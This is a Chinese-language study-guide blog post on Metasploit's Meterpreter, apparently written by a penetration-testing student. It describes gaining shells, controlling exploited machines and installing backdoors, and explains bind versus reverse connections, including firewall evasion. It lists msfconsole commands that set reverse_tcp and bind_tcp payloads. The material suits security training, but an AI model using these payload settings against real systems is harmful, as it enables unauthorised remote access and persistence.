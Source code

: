 ```yaml
---
layout: post
title: "Meterpreter - Study Guide"
date: "2022-07-26"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Network Attacks
---
```


# Meterpreter - Study Guide
这如何支持我的渗透测试生涯？
有能力：
* 在被利用的机器上获取强大的 shell
* 控制被利用的机器
* 安装后门

**Meterpreter** 是一个非常强大的 shell，可以在 Android、BSD、Java、Linux、PHP、Python 和 Windows 易受攻击的应用程序和服务上运行。
它提供了许多有用的功能，可以帮助渗透测试人员进一步渗透目标系统和网络。

Meterpreter 不仅仅是一个简单的shell。 它提供了高级功能来收集信息、在攻击者和受害者机器之间传输文件、安装后门等等。
在下面的幻灯片中，您将看到它的基本用法。

要列出所有可能的 Meterpreter 有效负载，您可以在 MSFConsole 中运行搜索：

```
msf6 > search meterpreter
```

选择有效负载是使用 `set` 命令的问题。 例如，在攻击 Windows 机器时，您将使用：

```
msf exploit(explmod) > set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse（绑定和反向）
Meterpreter 既可以等待目标机器上的连接，也可以连接回攻击者机器。 它最常用的配置是`bind_tcp` 和`reverse_tcp`。
* `bind_tcp` 在目标机器上运行一个服务器进程，等待来自攻击者机器的连接
* `reverse_tcp` 执行与攻击者机器的 TCP 连接。 正如您在后门一章中看到的，此功能可以帮助规避防火墙规则

选择要使用的配置是为漏洞利用模块设置正确的有效负载的问题。

```
# Selecting Meterpreter reverse_tcp for Windows or Linux（为 Windows 或 Linux 选择 Meterpreter reverse_tcp）
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp

# Selecting Meterpreter bind_tcp for Windows or Java（为 Windows 或 Java 选择 Meterpreter bind_tcp）
msf6 exploit(handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf6 exploit(handler) > set payload java/meterpreter/bind_tcp
payload => java/meterpreter/bind_tcp
```
